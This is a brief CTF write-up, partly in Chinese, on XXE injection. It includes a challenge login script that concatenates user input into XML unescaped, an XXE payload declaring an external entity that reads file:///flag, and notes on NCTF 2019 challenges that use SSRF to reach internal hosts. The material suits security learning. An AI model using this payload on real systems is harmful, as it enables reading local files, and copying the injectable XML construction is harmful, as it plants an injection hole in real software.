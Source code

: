 ```javascript
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

以xml形式传数据，并且会将**username**打印出来

```xml-dtd
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>&xxe;</password></user>
```

# 例题

## [NCTF 2019]True XML cookbook

与ctfshow web378类似

但**NSSCTF**是有内网，ssrf访问内网就可以了(NSS也是根目录看flag就可以了

**buuctf**直接根目录看flag即可

差点以为自己陷入平行宇宙了。。。

**[NCTF 2019]Fake XML cookbook**是根目录直接看flag，这题是要打内网的，但是环境好像都没开内网了
